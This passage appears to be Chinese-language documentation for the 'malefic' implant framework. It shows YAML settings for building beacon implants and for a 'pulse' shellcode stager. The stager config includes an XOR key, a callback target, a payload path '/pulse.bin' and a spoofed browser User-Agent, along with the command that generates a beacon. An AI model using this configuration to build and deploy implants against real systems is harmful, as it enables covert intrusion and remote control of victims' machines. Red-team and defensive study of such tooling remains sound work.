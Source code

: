 3. implants, 关于implant功能性配置

```yaml
implants:  
  runtime: tokio          # async runtime: smol/tokio/async-std  
  mod: beacon             # malefic mod: beacon/bind  
  register_info: true     # whether collect sysinfo when register  
  hot_load: true          # enable hot load module  
  modules:                # module when malefic compile  
    - "full"  
  enable_3rd: false       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - "full"  
  autorun: ""             # autorun config filename  
  pack:                   # pack  
#    - src: "1.docx"  
#      dst: "1.docs"
```

##### 使用说明

```bash
Config beacon

Usage: malefic-mutant.exe generate beacon [OPTIONS]

Options:
  -h, --help               Print help
```

#### 使用示例

```bash
malefic-mutant generate beacon 
```

### pulse

pulse 作为目前的 shellcode 生成器， 由 mutant 通过解析配置来提供生成代码

#### 配置清单

其所依赖的配置位于 malefic/config.yaml 文件的 pulse 模块

```yaml
pulse:
  flags:
    start: 0x41             # 交互 body 的开始标志
    end: 0x42               # 交互 body 的结束标志
    magic: "beautiful"      # 随机校验
    artifact_id: 16         # 用于控制所拉取的阶段
  encryption: xor           # body 加密方式 (目前为 xor)
  key: "maliceofinternal"   # 加密的 `key` 值
  target: 127.0.0.1:5002    
  protocol: "tcp"           # 通信协议 (目前为 tcp)
  http:
    method: "GET"
    path: "/pulse.bin"
    version: "1.1"
    headers:
      user_agent: "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0"
      accept: "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
      accept_language: "en-US,en;q=0.5"
      accept_encoding: "gzip, deflate"
```
